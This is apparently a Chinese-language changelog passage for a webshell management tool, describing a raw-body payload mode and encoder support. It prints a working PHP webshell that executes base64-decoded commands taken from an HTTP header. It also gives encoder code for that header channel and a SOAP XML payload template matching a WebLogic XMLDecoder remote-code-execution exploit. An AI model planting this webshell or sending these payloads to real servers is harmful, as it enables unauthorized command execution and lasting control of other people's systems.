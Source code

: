 * 修复 PHP SQLite 下自动生成的 sql 语句语法错误的 Bug

* 新增其它配置「Body 设置为 RAW 模式」，目前支持 `CMDLinux` 和 `PSWindows`

> 对于一些命令执行场景，发包时有时只需要纯 Payload, 而不需要键值。 比如复杂的 XML 结构, 此时就可以通过开启该选项，之后结合「编码器」组装 XML 格式 Payload 发送.

比如（注意 Content-Type 需要同步配置）:

```
'use strict';

module.exports = (pwd, data, ext={}) => {
  data[pwd] = `<?xml version="1.0" encoding="utf-8"?>
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
    <soapenv:Header>
        <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
        <java>
          <void method="newInstance">
              <void method="say" id="proc">
                  <string>${data['_']}</string>
              </void>
          </void>
        </java>
        </work:WorkContext>
    </soapenv:Header>
    <soapenv:Body/>
</soapenv:Envelope>`;
  // 删除 _ 原有的payload
  delete data['_'];
  // 返回编码器处理后的 payload 数组
  return data;
}
```

### 系统设置

* 编码管理支持 cmdlinux 类型

在使用 cmdlinux 类型时，如果接收参数在 HTTP Header 部分, 请务必使用编码器，因为部分 Payload 有换行符

eg:

WebShell:

```php
<?php system(base64_decode($_SERVER["HTTP_CMD"])); ?>
```

对应该的编码器如下:

```js
'use strict';

module.exports = (pwd, data, ext={}) => {
  let headers = ext.opts.httpConf.headers;
  headers[pwd] = Buffer.from(data['_']).toString('base64');
  delete data['_'];
  return data;
}
```


[medicaean-github]: https://github.com/Medicean
[peablog-github]: https://github.com/peablog
[loveshell-github]: https://github.com/loveshell
[Lupino-github]: https://github.com/Lupino